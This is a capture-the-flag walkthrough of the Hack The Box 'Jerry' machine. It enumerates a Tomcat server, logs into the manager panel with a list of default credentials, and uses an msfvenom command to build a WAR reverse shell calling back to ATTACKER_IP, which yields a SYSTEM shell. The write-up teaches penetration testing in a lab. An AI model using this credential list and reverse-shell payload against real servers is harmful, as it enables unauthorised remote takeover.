

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  |  10.10.10.95 |  | [Jerry](https://app.hackthebox.com/machines/Jerry) |  |

---
### Reconnaissance
Perform **Nmap** scan to enumerate ports:

```shell
sudo nmap -sC -sV -vv -Pn -p- -T4 -o full_nmap 10.10.10.95
```

**Results:**

```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

From our nmap scan, we see that only a single port is open: **8080 (HTTP)** 

---
### HTTP Exploitation (Tomcat Manager)
Visiting the HTTP server on port **8080**, I was greeted with the Apache Tomcat (v7.0.88) default page:


The first thing I did was attempt to access the manager panel and see if I could log in with any Tomcat default credentials. To do so, I clicked on the **'Manager App'** button on the web page, which led to a pop-up prompting for credentials:


This [Github repo](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) contains a useful list of Tomcat Manager credentials, some of which I've compiled below:

```
# Most common Tomcat Manager credentials
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cret
admin:tomcat
```

Going through the list, I found that I was able to log in with:

```
tomcat:s3cret
```



Now that we are in the Tomcat Manager dashboard, we can upload a **WAR** reverse shell executable and deploy it.

We first use **msfvenom** to generate the WAR reverse shell:

```shell
msfvenom -p java/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f war -o rev.war
```


Next, we upload this WAR file onto the web server, under the **'Deploy'** section:


Once deployed, we see our file under the **Applications** section: 


We then set up a **netcat** listener on our local machine and run the uploaded reverse shell by clicking on its name on the dashboard. With that, we see that a reverse shell was successfully established:


I also realised that we were logged in as the **SYSTEM** user. We can then obtain the user and root flags, both of which were combined in a file located in the Administrator's desktop under a **flags** folder:

